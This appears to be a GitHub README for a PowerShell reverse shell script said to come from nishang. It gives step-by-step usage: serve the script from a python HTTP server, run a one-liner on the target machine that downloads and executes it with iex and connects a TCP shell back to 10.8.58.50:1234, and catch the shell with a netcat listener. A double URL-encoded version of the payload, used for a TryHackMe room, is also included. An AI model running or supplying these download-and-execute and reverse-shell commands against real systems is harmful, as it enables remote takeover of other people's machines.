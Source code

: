 # powershell-reverse-shell
its a simple powershell script took from nishang a usefully for reverse shell most for windows, so as i can't get hard time most to get a reverse shell on windows


# how to run the powershell script and get a reverse shell(usage)
**1.** open a simple python server and make sure the script is right there were you have opened the server
command: python3 -m http.server 81

where: 
port 81 (is where i have decided to open the port coz for me port 80 was already in used)
ip_address: 10.8.58.50 (check via ifconfig command or ip a| grep tun0)

**NB**: After you have saved this script and opened a server now u can execute the following command on the target machine

**2.** there multiple ways to do this first all u need to save the file as saved for me as shell.ps1 and after u need to execute the following command the target machine(anyway vulnerable that can allow you to run command or execute commands

**command**: powershell -c iex (New-Object Net.WebClient).DownloadString('http://10.8.58.50:81/shell.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.58.50 -Port 1234

NB: sometimes this command may not work so u can just incode the command either online or anything i love doing this with burpsuite course it is easy
Forexample with a tryhackme  room(iron corp , in order to get a reverse shell you were supporsed to encode the payload more than two times

## my encoded payload
%25%37%30%25%36%66%25%37%37%25%36%35%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%30%25%32%64%25%36%33%25%32%30%25%36%39%25%36%35%25%37%38%25%32%30%25%32%38%25%34%65%25%36%35%25%37%37%25%32%64%25%34%66%25%36%32%25%36%61%25%36%35%25%36%33%25%37%34%25%32%30%25%34%65%25%36%35%25%37%34%25%32%65%25%35%37%25%36%35%25%36%32%25%34%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%32%39%25%32%65%25%34%34%25%36%66%25%37%37%25%36%65%25%36%63%25%36%66%25%36%31%25%36%34%25%35%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%38%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%30%25%32%65%25%33%38%25%32%65%25%33%35%25%33%38%25%32%65%25%33%35%25%33%30%25%33%61%25%33%38%25%33%31%25%32%66%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%37%33%25%33%31%25%32%37%25%32%39%25%33%62%25%34%39%25%36%65%25%37%36%25%36%66%25%36%62%25%36%35%25%32%64%25%35%30%25%36%66%25%37%37%25%36%35%25%37%32%25%35%33%25%36%38%25%36%35%25%36%63%25%36%63%25%35%34%25%36%33%25%37%30%25%32%30%25%32%64%25%35%32%25%36%35%25%37%36%25%36%35%25%37%32%25%37%33%25%36%35%25%32%30%25%32%64%25%34%39%25%35%30%25%34%31%25%36%34%25%36%34%25%37%32%25%36%35%25%37%33%25%37%33%25%32%30%25%33%31%25%33%30%25%32%65%25%33%38%25%32%65%25%33%35%25%33%38%25%32%65%25%33%35%25%33%30%25%32%30%25%32%64%25%35%30%25%36%66%25%37%32%25%37%34%25%32%30%25%33%31%25%33%32%25%33%33%25%33%34


3. start a netcat listener on your local machine

**command:** nc -nlvp 1234

